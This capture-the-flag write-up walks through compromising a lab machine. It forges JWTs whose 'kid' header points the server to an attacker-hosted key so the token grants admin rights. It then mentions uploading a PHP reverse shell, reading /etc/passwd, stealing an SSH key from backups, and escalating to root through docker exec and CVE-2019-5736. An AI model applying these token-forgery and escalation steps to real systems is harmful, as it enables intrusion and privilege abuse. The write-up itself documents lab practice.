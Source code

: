 # Enumeration

Nmap scan show us machine is openning these ports: `22,80,10010` 

Directory enumeration with gobuster
```
/login                (Status: 200) [Size: 1250]
/register             (Status: 200) [Size: 1422]
/admin                (Status: 403) [Size: 9]
/logout               (Status: 302) [Size: 209] [--> http://10.10.10.230/]
```
Visit the website, we explore the website functionality.

Register an account and login to the website

We see the website functionality is very basic, you can login and then you can add notes, view your own notes.

Viewing page source code doesn't show any interesting,

I use Burp Suite to explore the request, especially the request/response headers (my favorite place). You can tell a lot about what is running underneath based on the HTTP headers

I see they have Set-Cookie header. So every time we send a request to view notes, it uses `Cookie: auth=ey...` to identify our rights inside the website, and it is using JSON Web Token

I go to jwt.io to decrypt to token content and got this.

Token data:
```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 0
}
```

I am familiar with Web Application and how they work, especially the jwt authentication. But I rarely see the `kid` ( Key ID) in the JWT header, and since it is using `RS256` alg, it must be signed by a private key and the `"kid": "http://localhost:7070/privKey.key"` is showing that where the back-end get the private key from.

I did some research on what is the `kid` header and can we manipulate it ?. I ran into this [article](https://blog.pentesteracademy.com/hacking-jwt-tokens-kid-claim-misuse-command-injection-e7f5b9def146)

In the aricle, they mention about `kid` parameter get the private key from an absolute path point to the private key inside the machine.

But our `kid` parameter is point to a file hosted by a web server.

So we can kinda guest that, they are doing some http request to that `localhost:7070` to get the private key. Like `os.popen(curl $(kid))` , or something like that.

To test our theory to see if the website is vulnerable to that, we can generate a jwt with this value (and signed it with our private key)

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/a.txt"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

**Note**: We modify and `kid` value to our local web server ( `python -m SimpleHTTPServer` can help you spin up a web server quickly) . We also modify the `admin_cap` value to `1` since we have control over these values.

Modify the Cookie value with our token

```
auth=<our_tokens
```

And then we send our request to server. Watch our local machine logs, we did receive request from the box by modifying `kid` value => It is vulnerable 

# Exploit

Now it's time to take a step further. We will modify the `kid` value and point the URL to our private key and have the box fetch private key from our machine, verify the token

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/privKey.key" // Our private key
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

When the web server get our private key and verify it with our private key, our token become valid => We just got the admin priviledge inside the website

Go to `/admin` , we saw a upload file function and view all notes function

Click to view all notes, we can see that they have some notes:
- One is about PHP file being executed and it's not secure
- Second is about some backups

We can upload a php reverse shell file to get our reverse shell
=> We got RCE.


Enumerate users in machine
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
noah:x:1000:1000:Noah:/home/noah:/bin/bash
```

Based on the notes, we know there are some backup folders, doing some basic enumeration, we can found back up folders at `/var/backups` but it owned by `root`, we copy that back up folder to a directory owned by ours user so we can unzip them.

```
cp home.tar.gz /tmp
tar -zxcf home.tar.gz 
COPY id_rsa private key and login
```
=> got user, capture the `user.txt` flag

# Post Exploitation

Root part was pretty straight forward

```
sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

========================
Exploit: https://programmersought.com/article/71085031667/
Source code: https://github.com/Frichetten/CVE-2019-5736-PoC

Install Docker image without internet:
https://stackoverflow.com/questions/48125169/how-run-docker-images-without-connect-to-internet
